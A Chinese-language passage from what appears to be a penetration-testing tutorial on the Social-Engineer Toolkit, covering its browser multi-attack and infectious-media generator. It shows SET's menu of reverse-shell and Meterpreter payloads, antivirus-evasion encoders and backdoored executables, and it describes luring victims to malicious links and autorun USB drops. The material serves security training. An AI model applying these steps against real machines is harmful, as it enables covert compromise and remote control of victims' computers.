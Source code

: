 ## 工作原理...

一旦选择了不同的攻击，SET 将它们与有效载荷结合起来，构建一个单一的恶意链接，现在需要进行社会工程。我们将不得不构建一个对目标用户看起来完全合法的模板，并迫使他访问恶意链接。一旦受害者点击链接，不同的攻击将依次尝试，直到成功发动攻击。一旦发现并利用了漏洞，有效载荷将为 Metasploit 监听器提供反向连接。

# 传染性媒体生成器

传染性媒体生成器是一种相对简单的攻击向量。SET 将创建一个基于 Metasploit 的有效载荷，为您设置一个监听器，并生成一个需要刻录或写入 DVD/USB 驱动器的文件夹。一旦插入，如果启用了自动运行，代码将自动执行并控制机器。

## 如何做到这一点...

这种攻击向量基于一个简单的原则，即生成恶意可执行文件，然后使用可用的编码器对其进行编码，以绕过杀毒软件的保护。

```
Name: Description:
1\. Windows Shell Reverse_TCP Spawn a command shell on victim and send back to attacker.
2\. Windows Reverse_TCP Meterpreter Spawn a meterpreter shell on victim and send back to attacker.
3\. Windows Reverse_TCP VNC DLL Spawn a VNC server on victim and send back to attacker.
4\. Windows Bind Shell Execute payload and create an accepting port on remote system.
5\. Windows Bind Shell X64 Windows x64 Command Shell, Bind TCP Inline
6\. Windows Shell Reverse_TCP X64 Windows X64 Command Shell, Reverse TCP Inline
7\. Windows Meterpreter Reverse_TCP X64 Connect back to the attacker (Windows x64), Meterpreter
8\. Windows Meterpreter Egress Buster Spawn a meterpreter shell and find a port home via multiple ports
9\. Import your own executable Specify a path for your own executable
Enter choice (hit enter for default):
Below is a list of encodings to try and bypass AV.
Select one of the below, 'backdoored executable' is typically the best.
1\. avoid_utf8_tolower (Normal)
2\. shikata_ga_nai (Very Good)
3\. alpha_mixed (Normal)
4\. alpha_upper (Normal)
5\. call4_dword_xor (Normal)
6\. countdown (Normal)
7\. fnstenv_mov (Normal)
8\. jmp_call_additive (Normal)
9\. nonalpha (Normal)
10\. nonupper (Normal)
11\. unicode_mixed (Normal)
12\. unicode_upper (Normal)
13\. alpha2 (Normal)
14\. No Encoding (None)
15\. Multi-Encoder (Excellent)
16\. Backdoored Executable (BEST)
Enter your choice (enter for default):
[-] Enter the PORT of the listener (enter for default):
[-] Backdooring a legit executable to bypass Anti-Virus. Wait a few seconds...
[-] Backdoor completed successfully. Payload is now hidden within a legit executable.
[*] Your attack has been created in the SET home directory folder "autorun"
[*] Copy the contents of the folder to a CD/DVD/USB to autorun.
[*] The payload can be found in the SET home directory.
[*] Do you want to start the listener now? yes or no: yes
[*] Please wait while the Metasploit listener is loaded... 
```

## 它是如何工作的...

在生成编码的恶意文件之后，Metasploit 监听器开始等待反向连接。这种攻击的唯一限制是可移动媒体必须启用自动运行，否则将需要手动触发。

这种攻击向量在目标用户身后有防火墙的情况下可能会有帮助。现在大多数的杀毒程序都会禁用自动运行，这也使得这种攻击方式变得无效。渗透测试人员除了基于自动运行的攻击之外，还应确保提供一个带有后门的合法可执行文件/PDF 文件。这样可以确保受害者必然会执行其中一个有效载荷。
